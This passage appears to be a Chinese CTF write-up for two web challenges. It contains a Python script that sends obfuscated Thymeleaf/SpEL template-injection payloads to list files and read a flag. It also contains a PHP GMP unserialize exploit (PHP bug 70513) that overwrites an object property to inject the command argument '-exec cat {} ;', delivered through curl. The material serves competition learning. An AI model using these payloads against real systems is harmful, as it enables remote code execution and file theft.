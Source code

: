 ```python
import requests
# /flag_is_here

for i in range(0, 20):
    sess = requests.session()
    content = '''
    [[${ T(java.net.URLClassLoader).getSystemClassLoader().loadClass(T(String).valueOf(new char[]{106, 97, 118, 97, 46, 105, 111, 46, 70, 105, 108, 101})).getConstructors()[1].newInstance(T(String).valueOf(new char[]{47})).listFiles()[%d] }]]
    '''% i
    res = sess.post("http://116.85.37.131/34867ccfda85234382210155be32525c/;/web/68759c96217a32d5b368ad2965f625ef/customize", {
        'content': content
    })
    #[[${ (new java.util.Scanner(T(java.net.URLClassLoader).getSystemClassLoader().loadClass(T(String).valueOf(new char[]{106, 97, 118, 97, 46, 105, 111, 46, 70, 105, 108, 101, 82, 101, 97, 100, 101, 114})).getConstructors()[0].newInstance(T(String).valueOf(new char[]{47, 102, 108, 97, 103, 95, 105, 115, 95, 104, 101, 114, 101})))).next() }]]

    uuid = res.text[res.text.find('./render/')+len('./render/'):res.text.find('./render/')+len('./render/2b32ce0c2a9292af4fdfe3333058c02c')]

    res = sess.get(f'http://116.85.37.131/34867ccfda85234382210155be32525c/;/web/68759c96217a32d5b368ad2965f625ef/render/{uuid}')
    print(res.text)
```

最后用 Scanner 这个类，方法名里面没有 read， payload 如下
```
[[${ (new java.util.Scanner(T(java.net.URLClassLoader).getSystemClassLoader().loadClass(T(String).valueOf(new char[]{106, 97, 118, 97, 46, 105, 111, 46, 70, 105, 108, 101, 82, 101, 97, 100, 101, 114})).getConstructors()[0].newInstance(T(String).valueOf(new char[]{47, 102, 108, 97, 103, 95, 105, 115, 95, 104, 101, 114, 101})))).next() }]]
```

### Overwrite Me

GMP 的一个 CVE，百度就能搜到, 可以覆盖任意对象的任意属性. https://bugs.php.net/bug.php?id=70513.
访问 http://117.51.137.166/hint/hint.php 拿到前半部分
然后覆盖 $mc 的 flag 导致参数注入就能读到后半部分
```php
<?php
$inj = "-exec cat {} ;";
$inner = 's:1:"3";a:3:{s:4:"flag";s:'.strlen($inj).':"'.$inj.'";s:2:"hi";s:2:"aa";i:0;O:12:"DateInterval":1:{s:1:"y";R:2;}}';
$exploit = 'a:1:{i:0;C:3:"GMP":'.strlen($inner).':{'.$inner.'}}';
echo "\n" . $exploit . "\n";
echo "\n";

$a = urlencode($exploit);

system("curl http://117.51.137.166/EOf9uk3nSsVFK1LQ.php?bullet=$a");
```
